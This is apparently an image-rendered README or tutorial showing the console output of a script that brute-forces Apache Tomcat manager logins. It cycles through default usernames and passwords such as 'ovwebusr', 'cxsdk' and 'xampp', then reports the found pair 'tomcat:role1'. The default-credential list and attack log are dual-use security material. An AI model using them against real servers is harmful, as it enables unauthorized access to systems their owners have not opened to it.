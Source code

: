 ```bash
[*] Trying 'ovwebusr:j2deployer' ...
[*] Trying 'cxsdk:j2deployer' ...
[*] Trying 'ADMIN:j2deployer' ...
[*] Trying 'xampp:j2deployer' ...
[*] Trying 'admin:ovwebusr' ...
[*] Trying 'manager:ovwebusr' ...
[*] Trying 'role1:ovwebusr' ...
[*] Trying 'role:ovwebusr' ...
[*] Trying 'root:ovwebusr' ...
[*] Trying 'tomcat:ovwebusr' ...
[*] Trying 'both:ovwebusr' ...
[*] Trying 'QCC:ovwebusr' ...
[*] Trying 'j2deployer:ovwebusr' ...
[*] Trying 'ovwebusr:ovwebusr' ...
[*] Trying 'cxsdk:ovwebusr' ...
[*] Trying 'ADMIN:ovwebusr' ...
[*] Trying 'xampp:ovwebusr' ...
[*] Trying 'admin:cxsdk' ...
[*] Trying 'manager:cxsdk' ...
[*] Trying 'role1:cxsdk' ...
[*] Trying 'role:cxsdk' ...
[*] Trying 'root:cxsdk' ...
[*] Trying 'tomcat:cxsdk' ...
[*] Trying 'both:cxsdk' ...
[*] Trying 'QCC:cxsdk' ...
[*] Trying 'j2deployer:cxsdk' ...
[*] Trying 'ovwebusr:cxsdk' ...
[*] Trying 'cxsdk:cxsdk' ...
[*] Trying 'ADMIN:cxsdk' ...
[*] Trying 'xampp:cxsdk' ...
[*] Trying 'admin:ADMIN' ...
[*] Trying 'manager:ADMIN' ...
[*] Trying 'role1:ADMIN' ...
[*] Trying 'role:ADMIN' ...
[*] Trying 'root:ADMIN' ...
[*] Trying 'tomcat:ADMIN' ...
[*] Trying 'both:ADMIN' ...
[*] Trying 'QCC:ADMIN' ...
[*] Trying 'j2deployer:ADMIN' ...
[*] Trying 'ovwebusr:ADMIN' ...
[*] Trying 'cxsdk:ADMIN' ...
[*] Trying 'ADMIN:ADMIN' ...
[*] Trying 'xampp:ADMIN' ...
[*] Trying 'admin:xampp' ...
[*] Trying 'manager:xampp' ...
[*] Trying 'role1:xampp' ...
[*] Trying 'role:xampp' ...
[*] Trying 'root:xampp' ...
[*] Trying 'tomcat:xampp' ...
[*] Trying 'both:xampp' ...
[*] Trying 'QCC:xampp' ...
[*] Trying 'j2deployer:xampp' ...
[*] Trying 'ovwebusr:xampp' ...
[*] Trying 'cxsdk:xampp' ...
[*] Trying 'ADMIN:xampp' ...
[*] Trying 'xampp:xampp' ...
## Summary ##
{'tomcat': 'role1'}
```
When the script has finished running, the credentials are found and listed at the bottem.
